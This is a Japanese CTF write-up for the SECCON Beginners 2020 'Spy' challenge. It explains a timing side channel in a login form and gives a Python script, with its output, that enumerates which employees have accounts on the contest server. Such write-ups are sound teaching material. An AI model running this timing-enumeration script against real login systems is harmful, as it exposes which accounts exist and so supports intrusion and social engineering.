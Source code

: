 # SECCON Beginners CTF 2020 "Spy" writeup

## 問題

```
As a spy, you are spying on the "ctf4b company".

You got the name-list of employees and the URL to the in-house web tool used by some of them.

Your task is to enumerate the employees who use this tool in order to make it available for social engineering.

app.py
employees.txt
```

## 解法

このシステムを使っているメンバーの名前を提出すれば代わりにフラグが返ってくるというもの。

ソースを見ると、まずその名前をみて存在の確認をしている。

もし名前が存在していれば、パスワードをハッシュ化して照合している。（※）

パスワードを間違えていると、Login failedの画面に飛ぶ。

メンバーの名前一覧は分かるのでそれぞれのメンバーでログインを試みることはできる。

解法としては、※の部分の処理に時間がかかることを気が付き、レスポンスが返ってくる時間でユーザーの存在の有無を調べる必要がある。

ユーザーが存在しないときにレスポンス返ってくる時間は0.3秒ほどであった。
存在するときは0.7秒くらいだった。

閾値を0.5秒とかにしておくと、存在するユーザーのみ抜き出すことができた。

```
#!/usr/bin/python
# coding : UTF-8
import sys
import requests
import time
def exploit():
    with open("employees.txt") as f:
        lines = [s.strip() for s in f.readlines()]
    url = 'https://spy.quals.beginners.seccon.jp/'
    for line in lines:
        payload = {'name': line, 'password': 'aaa'}
        start = time.time()
        responce = requests.post(url, data=payload)
        result = responce.text
        elapsed_time = time.time() - start
        if 0.5 < elapsed_time:
            print(line + " : " + str(elapsed_time))

if __name__ == "__main__":
    exploit()
```


```
$ python3 exploit.py
Elbert : 0.7758095264434814
George : 1.0648000240325928
Lazarus : 0.7373998165130615
Marc : 0.7939815521240234
Tony : 0.9620859622955322
Ximena : 0.7253859043121338
Yvonne : 0.884502649307251
```

これを送信してフラグをゲット